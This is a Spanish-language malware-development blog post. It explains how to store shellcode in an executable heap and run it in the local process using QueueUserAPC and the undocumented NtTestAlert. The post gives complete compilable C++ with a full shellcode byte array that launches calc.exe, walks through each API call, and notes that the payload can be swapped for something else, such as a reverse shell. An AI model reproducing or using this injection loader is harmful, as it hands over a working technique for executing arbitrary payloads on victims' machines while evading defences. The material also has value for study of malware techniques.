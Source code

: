 ```yaml
---
layout: post
title: Shellcode almacenada en el heap e inyección vía APC injection y NtTestAlert en un proceso local
author: c4rta
date: 2023-07-17
tags: [MalDev]
image: /assets/img/heap-queue/waifu.jpg
---
```


Esta vez vamos a almacenar la shellcode en el heap de un proceso local usando HeapCrate y HeapAlloc y la ejecutaremos con QueueUserAPC y la NTAPI indocumentada NtTestAlert

## Asynchronous Procedure Calls (APC) y QueueUserAPC()

De acuerdo a la MSDN, una APC es:

> Es una función que se ejecuta de forma asíncrona en el contexto de un subproceso en particular

Cada subproceso tiene un propia cola APC, y un subproceso debe estar en un estado de alerta para ejecutar un APC en modo de usuario, algunas formas de indicarle a un subproceso que este en modo de alerta es con las funciones **SleepEx** , **SignalObjectAndWait**, **MsgWaitForMultipleObjectsEx**, etc.

La forma en la que podemos agregar una APC a la cola APC es usando **QueueUserAPC**, la estructura de QueueUserAPC es:

```c++
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);
```

- **pfnAPC** es un puntero a la APC que se llamara cuando el subproceso realiza una operacion de alerta
- **hThread** es el identificador del hilo 
- **dwData** es un valor que funciona como un parametro a **pfnAPC**

## Flujo de ejecucion

- Crear un heap usando **HeapCreate**
- Se asigna un bloque de memoria con **HeapAlloc** del tamaño de la shellcode en el heap creado con **HeapCreate**
- Se escribe la shellcode en el bloque de memoria del heap usando **WriteProcessMemory**
- Se encola una APC en el subproceso actual usando **QueueUserAPC**
- Se llama **NtTestAlert** para forzar la ejecucion de la APC

### Codigo

```c++
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char shellcode[] = {
	"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
	"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
	"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
	"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
	"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
	"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
	"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
	"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
	"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
	"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
	"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
	"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
	"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
	"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
	"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
	"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
	"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
	"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
	"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
	"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
};

int main(){
    myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
    HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
    LPVOID shellcodeHeap = HeapAlloc(hHeap, HEAP_ZERO_MEMORY, sizeof(shellcode));
    WriteProcessMemory(GetCurrentProcess(), shellcodeHeap, shellcode, sizeof(shellcode), NULL);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellcodeHeap;
    QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
    testAlert();

    return 0;
}
```

Pimero creamos un heap en donde le indicamos que en las opciones de asignacion tenga **HEAP_CREATE_ENABLE_EXECUTE** para que los bloques de memoria que se asignen permitan ejecutar codigo

```c++
HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
```

Despues asignamos un bloque de memoria donde le indicamos con **HEAP_ZERO_MEMORY** que la asignacion inicie con cero, y el tamaño de la asignacion sea el tamaño de la shellcode, por eso se usa **sizeof(shellcode)**

```c++
HeapAlloc(hHeap, HEAP_ZERO_MEMORY, sizeof(shellcode));
```

Despues escribimos la shellcode en el bloque de memoria del heap, se usa **GetCurrentProcess()** para que el identificador del proceso sea el identificador del proceso actual, el tamaño en bytes que se van a escribir es igual al tamaño de la shellcode, por eso se vuelve a usar **sizeof(shellcode)**

```c++
WriteProcessMemory(GetCurrentProcess(), shellcodeHeap, shellcode, sizeof(shellcode), NULL);
```

Despues declaramos **apcRoutine** como un puntero **PTHREAD_START_ROUTINE** el cual se le asignara la direccion de memoria que tiene **shellcodeHeap**, con esto le indicariamos que la APC apunte a **shellcodeHeap** que es el bloque del heap que contiene la shellcode

```c++
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellcodeHeap;
```

Despues encolamos una APC a la cola APC, se le pasa **(PAPCFUNC)apcRoutine** para que **apcRoutine** sea interpretado como un puntero de tipo **PAPCFUNC** y sea una APC valida, tambien usamos **GetCurrentThread()** para que se use el identificador del hilo actual

```c++
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
```

Y por ultimo mandamos a llamar a **testAlert()** para forzar la ejecucion de las APC encoladas en el hilo actual.

Si compilamos y ejecutamos se ejecutara la shellcode que la cual abrira la calculadora (evidetemente puedes cambiar la shellcode para que haga otra cosa, una reverse shell por ejemplo)

![](/assets/img/heap-queue/ejecucion.gif)

### Referencias

[https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)

[https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)

[https://www.g0dmode.biz/remote-process-injection/queueuserapc-+-nttestalert](https://www.g0dmode.biz/remote-process-injection/queueuserapc-+-nttestalert)

Eso ha sido todo, gracias por leer ❤
